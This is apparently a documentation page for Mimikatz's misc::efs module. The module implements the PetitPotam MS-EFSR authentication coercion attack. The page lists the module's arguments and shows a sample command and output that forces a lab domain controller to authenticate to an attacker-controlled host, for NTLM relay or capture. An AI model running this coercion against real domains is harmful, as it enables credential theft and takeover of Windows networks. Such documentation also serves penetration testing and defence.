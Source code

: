 # efs

`misc::efs` is Mimikatz's implementation of the [MS-EFSR abuse (PetitPotam)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr), an authentication coercion technique. It has the following command line arguments:

* `/authuser`: the [User Principal Name](https://kb.iu.edu/d/atzp) (UPN). By default it uses the current user's token
* `/authpassword`: the password of the user.
* `/noauth`: use null session
* `/endpoint`: the RPC endpoint. By default is uses `\pipe\lsarpc`
* `/server` or `/target`: the target server
* `/connect` or `/callback`: the unconstrained delegation server, or other host with Responder, etc.

```
mimikatz # misc::efs /server:dc.hacklab.local /connect:192.168.0.18 /noauth
[auth ] None
[ rpc ] Endpoint: \pipe\lsarpc
[trans] Disconnect eventual IPC: OK
[trans] Connect to IPC: OK
[ rpc ] Resolve Endpoint: OK

Remote server reported bad network path! (OK)
> Server (dc.hacklab.local) may have tried to authenticate (to: 192.168.0.18)

[trans] Disconnect IPC: OK
```

For more information on how to exploit this, see The Hacker Recipes. It can be used to NTLM relay attacks, NTLM capture, etc.

{% embed url="https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr" %}
